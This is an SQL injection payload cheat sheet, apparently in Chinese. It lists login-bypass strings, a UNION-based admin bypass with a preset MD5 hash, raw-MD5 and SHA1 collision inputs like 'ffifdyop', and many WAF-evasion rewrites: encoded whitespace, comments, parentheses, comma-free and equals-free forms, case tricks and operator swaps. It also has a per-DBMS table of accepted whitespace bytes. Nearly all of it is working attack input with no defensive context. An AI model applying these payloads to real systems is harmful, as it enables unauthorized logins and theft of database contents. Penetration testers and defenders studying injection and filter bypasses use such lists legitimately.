 	admin") or ("1"="1"/*
	admin") or "1"="1
	admin") or "1"="1"--
	admin") or "1"="1"#
	admin") or "1"="1"/*
	1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
 #### 身份验证绕过（原始 MD5 SHA1）
  	当密码为MD5加密是
	查询语句是这样的
	"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
	绕过方式
	md5("ffifdyop", true) = 'or'6�]��!r,��b�
	sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
 #### WAF 绕过
  	无空格
	?id=1%09and%091=1%09--
	?id=1%0Dand%0D1=1%0D--
	?id=1%0Cand%0C1=1%0C--
	?id=1%0Band%0B1=1%0B--
	?id=1%0Aand%0A1=1%0A--
	?id=1%A0and%A01=1%A0--
	注释符
	?id=1/*comment*/and/**/1=1/**/--
	括号绕过
	?id=(1)and(1)=(1)--
	更多
| DBMS | ASCII characters in hexadicimal |
| ---- | ------------------------------- |
| SQLite3 | 0A, 0D, 0C, 09, 20 |
| MySQL	5 | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL	3	| 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |
	无逗号
	LIMIT 0,1         -> LIMIT 1 OFFSET 0
	SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
	SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
	无等号
	?id=1 and substring(version(),1,1)like(5)
	?id=1 and substring(version(),1,1)not in(4,3)
	?id=1 and substring(version(),1,1)in(4,3)
	?id=1 and substring(version(),1,1) between 3 and 4
	大小写
	?id=1 AND 1=1#
	?id=1 AnD 1=1#
	?id=1 aNd 1=1#
	运算符
	AND   -> &&
	OR    -> ||
	=     -> LIKE,REGEXP, BETWEEN, not < and not >
	> X   -> not between 0 and X
	WHERE -> HAVING
